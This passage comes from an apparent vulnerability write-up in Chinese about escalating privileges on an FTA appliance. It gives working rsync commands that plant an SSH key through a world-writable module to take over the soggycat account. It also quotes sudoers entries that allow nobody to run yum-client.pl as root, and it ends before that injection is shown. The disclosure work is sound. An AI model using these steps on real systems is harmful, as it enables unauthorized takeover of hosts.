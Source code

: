> user_profile_auth(include $_FILES\[file\]\[tmp_name\]);

<br>

#### Local Privilege Escalation (CVE-2016-2352 and CVE-2016-2353)
在取得 PHP 網頁權限後，發現所屬權限為 nobody，為了進行更深入的研究，在對環境進行審視後，發現兩個可用來提升權限之弱點。

##### 1. Rsync 配置錯誤

**/etc/opt/rsyncd.conf**
{% highlight lighttpd %}
log file = /home/soggycat/log/kennel.log
...
[soggycat]
path = /home/soggycat
uid = soggycat
read only = false
list = false
...
{% endhighlight %}

其中模組名稱 soggycat 對 `/home/soggycat/` 為任何人可讀可寫，所以可將 SSH Key 寫至 /home/soggycat/.ssh/ 後以 soggycat 身分登入

{% highlight bash %}
bash-3.2$ id
uid=99(nobody) gid=99(nobody) groups=99(nobody)

bash-3.2$ rsync 0::soggycat/.ssh/
drwx------        4096 2016/01/29 18:13:41 .
-rw-r--r--         606 2016/01/29 18:13:41 authorized_keys

bash-3.2$ rsync 0::soggycat/.ssh/authorized_keys .
bash-3.2$ cat id_dsa.pub >> authorized_keys
bash-3.2$ rsync authorized_keys 0::soggycat/.ssh/

bash-3.2$ ssh -i id_dsa -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no soggycat@localhost id
Could not create directory '/.ssh'.
Warning: Permanently added '0,0.0.0.0' (RSA) to the list of known hosts.
uid=520(soggycat) gid=99(nobody) groups=99(nobody)

{% endhighlight %}
<br>


##### 2. Command Injection in "yum-client.pl"

在 FTA 中，為了使系統可以直接透過網頁介面進行更新，因此在 sudoers 配置中特別針對 nobody 用戶允許直接使用 root 權限執行指令，並透過 `yum-client.pl` 這隻程式進行軟體更新

**/etc/sudoers**
{% highlight apache %}
...
Cmnd_Alias      YUM_UPGRADE = /usr/bin/yum -y upgrade
Cmnd_Alias      YUM_CLIENT = /usr/local/bin/yum-client.pl
...
# User privilege specification
root     ALL=(ALL) ALL
admin    ALL =NOPASSWD: UPDATE_DNS, UPDATE_GW, UPDATE_NTP, RESTART_NETWORK, CHMOD_OLDTEMP ...
nobody   ALL =NOPASSWD: SSL_SYSTEM, ADMIN_SYSTEM, IPSEC_CMD, YUM_CLIENT
soggycat ALL =NOPASSWD: ADMIN_SYSTEM, IPSEC_CMD, CHOWN_IPSEC, UPDATE_IPSEC, YUM_CLIENT
radmin   ALL =NOPASSWD: RESET_APPL
...
{% endhighlight %}
<br>
